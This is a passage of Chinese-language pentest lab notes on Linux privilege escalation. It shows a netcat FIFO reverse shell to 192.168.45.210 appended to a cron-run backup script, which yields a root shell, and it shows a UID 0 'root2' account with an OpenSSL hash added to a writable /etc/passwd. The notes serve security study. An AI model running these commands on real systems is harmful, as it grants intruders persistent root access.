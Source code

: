 #### 2. 塞入 Reverse shell
```
joe@debian-privesc:~$ cd .scripts

joe@debian-privesc:~/.scripts$ echo >> user_backups.sh

joe@debian-privesc:~/.scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.210 5678 >/tmp/f" >> user_backups.sh

joe@debian-privesc:~/.scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.210 5678 >/tmp/f
```
>`echo >> user_backups.sh`: 只是單純塞入換行符號\
>`rm /tmp/f;mkfifo /tmp/f;`: 刪除 /tmp/f，然後建立一個 FIFO\
>`cat /tmp/f | /bin/sh -i 2>&1 `: 讀取 FIFO 並傳給 /bin/sh -i，這樣 sh 會執行從 netcat 傳來的指令\
>`nc 192.168.45.210 5678 >/tmp/f`: >/tmp/f 讓 Netcat 透過 FIFO 接收命令的輸入

等待 cron 自動執行後，就能收到 reverse shell
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 5678
listening on [any] 5678 ...
connect to [192.168.45.210] from (UNKNOWN) [192.168.235.214] 37594
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
### Abusing Password Authentication
除非使用 Active Directory 或 LDAP 等的 centralized credential system，否則 Linux 密碼通常儲存在 `/etc/shadow`，且 normal users 無法讀取。

>[!Important]
> 如果 `/etc/passwd` 第二欄仍含有密碼雜湊值，它將**優先**於 `/etc/shadow` 被系統用來驗證登入。

代表: 若我們可以寫入 /etc/passwd，就可以有效地為任何帳戶設定任意密碼。

#### OpenSSL 生成 Hash password，注入 /etc/passwd

>[!Note]
> OpenSSL passwd指令的輸出可能會因執行該指令的系統而異。在較舊的系統上，可能預設為 DES 演算法，而在某些較新的系統上，它可以以 MD5 格式輸出密碼。

```
joe@debian-privesc:~$ ls -lah /etc/passwd
-rw-r--rw- 1 root root 2.3K Aug 29  2022 /etc/passwd
joe@debian-privesc:~$ openssl passwd chw
nWfVpeIzUj9g6
joe@debian-privesc:~$ echo "root2:nWfVpeIzUj9g6:0:0:root:/root:/bin/bash" >> /etc/passwd
joe@debian-privesc:~$ su root2
Password: 
root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
root@debian-privesc:/home/joe#
```
> 1. 發現 `/etc/passwd` 可寫
> 2. `openssl passwd chw`: 生成密碼為 'chw' 的 hash。 \
> 若使用參數 `-1`表示使用 MD5 Hashing。
> 3. `echo "root2:nWfVpeIzUj9g6:0:0:root:/root:/bin/bash" >> /etc/passwd`: 塞入新使用者(root2)，設定對應 hash password 與權限 (user id (UID): `zero` & group id (GID): `zero`)
